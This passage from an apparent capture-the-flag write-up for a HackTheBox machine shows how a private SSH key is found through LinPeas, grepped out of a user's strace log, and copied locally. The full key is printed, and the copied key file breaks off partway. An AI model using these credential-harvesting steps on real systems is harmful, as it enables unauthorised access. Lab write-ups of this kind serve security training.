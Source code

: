 Inside ‘strace’ text file there is SSH private key store. I got this information from LinPeas.

```
Possible private SSH keys were found!
/home/bindmgr/support-case-C62796521/strace-C62796521.txt
```

Let’s grep the keys from the file.

```
(remote) www-data@dynstr.dyna.htb:/home$ cat bindmgr/support-case-C62796521/strace-C62796521.txt | grep SSH
15123 sendto(3, "SSH-2.0-libssh2_1.8.0\r\n", 23, MSG_NOSIGNAL, NULL, 0) = 23
15123 write(2, "SSH MD5 fingerprint: c1c2d07855aa0f80005de88d254a6db8\n", 54) = 54
15123 write(2, "SSH authentication methods available: publickey,password\n", 57) = 57
15123 write(2, "Using SSH public key file '/home/bindmgr/.ssh/id_rsa.pub'\n", 58) = 58
15123 write(2, "Using SSH private key file '/home/bindmgr/.ssh/id_rsa'\n", 55) = 55
15123 read(5, "-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAQEAxeKZHOy+RGhs+gnMEgsdQas7klAb37HhVANJgY7EoewTwmSCcsl1\n42kuvUhxLultlMRCj1pnZY/1sJqTywPGalR7VXo+2l0Dwx3zx7kQFiPeQJwiOM8u/g8lV3\nHjGnCvzI4UojALjCH3YPVuvuhF0yIPvJDessdot/D2VPJqS+TD/4NogynFeUrpIW5DSP+F\nL6oXil+sOM5ziRJQl/gKCWWDtUHHYwcsJpXotHxr5PibU8EgaKD6/heZXsD3Gn1VysNZdn\nUOLzjapbDdRHKRJDftvJ3ZXJYL5vtupoZuzTTD1VrOMng13Q5T90kndcpyhCQ50IW4XNbX\nCUjxJ+1jgwAAA8g3MHb+NzB2/gAAAAdzc2gtcnNhAAABAQDF4pkc7L5EaGz6CcwSCx1Bqz\nuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7a\nXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38P\nZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk\n+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs\n4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WODAAAAAwEAAQAAAQEAmg1KPaZgiUjybcVq\nxTE52YHAoqsSyBbm4Eye0OmgUp5C07cDhvEngZ7E8D6RPoAi+wm+93Ldw8dK8e2k2QtbUD\nPswCKnA8AdyaxruDRuPY422/2w9qD0aHzKCUV0E4VeltSVY54bn0BiIW1whda1ZSTDM31k\nobFz6J8CZidCcUmLuOmnNwZI4A0Va0g9kO54leWkhnbZGYshBhLx1LMixw5Oc3adx3Aj2l\nu291/oBdcnXeaqhiOo5sQ/4wM1h8NQliFRXraymkOV7qkNPPPMPknIAVMQ3KHCJBM0XqtS\nTbCX2irUtaW+Ca6ky54TIyaWNIwZNznoMeLpINn7nUXbgQAAAIB+QqeQO7A3KHtYtTtr6A\nTyk6sAVDCvrVoIhwdAHMXV6cB/Rxu7mPXs8mbCIyiLYveMD3KT7ccMVWnnzMmcpo2vceuE\nBNS+0zkLxL7+vWkdWp/A4EWQgI0gyVh5xWIS0ETBAhwz6RUW5cVkIq6huPqrLhSAkz+dMv\nC79o7j32R2KQAAAIEA8QK44BP50YoWVVmfjvDrdxIRqbnnSNFilg30KAd1iPSaEG/XQZyX\nWv//+lBBeJ9YHlHLczZgfxR6mp4us5BXBUo3Q7bv/djJhcsnWnQA9y9I3V9jyHniK4KvDt\nU96sHx5/UyZSKSPIZ8sjXtuPZUyppMJVynbN/qFWEDNAxholEAAACBANIxP6oCTAg2yYiZ\nb6Vity5Y2kSwcNgNV/E5bVE1i48E7vzYkW7iZ8/5Xm3xyykIQVkJMef6mveI972qx3z8m5\nrlfhko8zl6OtNtayoxUbQJvKKaTmLvfpho2PyE4E34BN+OBAIOvfRxnt2x2SjtW3ojCJoG\njGPLYph+aOFCJ3+TAAAADWJpbmRtZ3JAbm9tZW4BAgMEBQ==\n-----END OPENSSH PRIVATE KEY-----\n", 4096) = 1823
15123 write(2, "SSH public key authentication failed: Callback returned error\n", 62) = 62
```

Copy the key to your machine and remove the LF (line feed \n) from the file.

```
🔥\> cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAxeKZHOy+RGhs+gnMEgsdQas7klAb37HhVANJgY7EoewTwmSCcsl1
42kuvUhxLultlMRCj1pnZY/1sJqTywPGalR7VXo+2l0Dwx3zx7kQFiPeQJwiOM8u/g8lV3
HjGnCvzI4UojALjCH3YPVuvuhF0yIPvJDessdot/D2VPJqS+TD/4NogynFeUrpIW5DSP+F
L6oXil+sOM5ziRJQl/gKCWWDtUHHYwcsJpXotHxr5PibU8EgaKD6/heZXsD3Gn1VysNZdn
UOLzjapbDdRHKRJDftvJ3ZXJYL5vtupoZuzTTD1VrOMng13Q5T90kndcpyhCQ50IW4XNbX
CUjxJ+1jgwAAA8g3MHb+NzB2/gAAAAdzc2gtcnNhAAABAQDF4pkc7L5EaGz6CcwSCx1Bqz
uSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7a
XQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38P
ZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk
+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs
4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WODAAAAAwEAAQAAAQEAmg1KPaZgiUjybcVq
xTE52YHAoqsSyBbm4Eye0OmgUp5C07cDhvEngZ7E8D6RPoAi+wm+93Ldw8dK8e2k2QtbUD
PswCKnA8AdyaxruDRuPY422/2w9qD0aHzKCUV0E4VeltSVY54bn0BiIW1whda1ZSTDM31k
obFz6J8CZidCcUmLuOmnNwZI4A0Va0g9kO54leWkhnbZGYshBhLx1LMixw5Oc3adx3Aj2l
u291/oBdcnXeaqhiOo5sQ/4wM1h8NQliFRXraymkOV7qkNPPPMPknIAVMQ3KHCJBM0XqtS
TbCX2irUtaW+Ca6ky54TIyaWNIwZNznoMeLpINn7nUXbgQAAAIB+QqeQO7A3KHtYtTtr6A
Tyk6sAVDCvrVoIhwdAHMXV6cB/Rxu7mPXs8mbCIyiLYveMD3KT7ccMVWnnzMmcpo2vceuE
BNS+0zkLxL7+vWkdWp/A4EWQgI0gyVh5xWIS0ETBAhwz6RUW5cVkIq6huPqrLhSAkz+dMv
C79o7j32R2KQAAAIEA8QK44BP50YoWVVmfjvDrdxIRqbnnSNFilg30KAd1iPSaEG/XQZyX
Wv//+lBBeJ9YHlHLczZgfxR6mp4us5BXBUo3Q7bv/djJhcsnWnQA9y9I3V9jyHniK4KvDt
U96sHx5/UyZSKSPIZ8sjXtuPZUyppMJVynbN/qFWEDNAxholEAAACBANIxP6oCTAg2yYiZ
b6Vity5Y2kSwcNgNV/E5bVE1i48E7vzYkW7iZ8/5Xm3xyykIQVkJMef6mveI972qx3z8m5
```